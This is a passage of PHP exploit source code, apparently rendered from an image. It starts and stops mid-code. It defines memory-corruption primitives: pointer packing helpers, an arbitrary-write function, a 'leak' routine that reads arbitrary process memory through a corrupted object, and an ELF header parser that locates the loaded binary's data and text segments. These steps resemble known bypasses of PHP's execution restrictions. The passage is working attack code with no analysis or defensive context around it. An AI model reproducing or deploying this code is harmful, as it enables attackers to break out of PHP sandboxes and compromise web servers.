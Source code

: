 ```php
        public $a, $b, $c, $d;
    }

    function str2ptr(&$str, $p = 0, $s = 8) {
        $address = 0;
        for($j = $s-1; $j >= 0; $j--) {
            $address <<= 8;
            $address |= ord($str[$p+$j]);
        }
        return $address;
    }

    function ptr2str($ptr, $m = 8) {
        $out = "";
        for ($i=0; $i < $m; $i++) {
            $out .= chr($ptr & 0xff);
            $ptr >>= 8;
        }
        return $out;
    }

    function write(&$str, $p, $v, $n = 8) {
        $i = 0;
        for($i = 0; $i < $n; $i++) {
            $str[$p + $i] = chr($v & 0xff);
            $v >>= 8;
        }
    }

    function leak($addr, $p = 0, $s = 8) {
        global $abc, $helper;
        write($abc, 0x68, $addr + $p - 0x10);
        $leak = strlen($helper->a);
        if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
        return $leak;
    }

    function parse_elf($base) {
        $e_type = leak($base, 0x10, 2);

        $e_phoff = leak($base, 0x20);
        $e_phentsize = leak($base, 0x36, 2);
        $e_phnum = leak($base, 0x38, 2);

        for($i = 0; $i < $e_phnum; $i++) {
            $header = $base + $e_phoff + $i * $e_phentsize;
            $p_type  = leak($header, 0, 4);
            $p_flags = leak($header, 4, 4);
            $p_vaddr = leak($header, 0x10);
            $p_memsz = leak($header, 0x28);

            if($p_type == 1 && $p_flags == 6) { # PT_LOAD, PF_Read_Write
                # handle pie
                $data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
                $data_size = $p_memsz;
            } else if($p_type == 1 && $p_flags == 5) { # PT_LOAD, PF_Read_exec
                $text_size = $p_memsz;
            }
        }

        if(!$data_addr || !$text_size || !$data_size)
            return false;

```
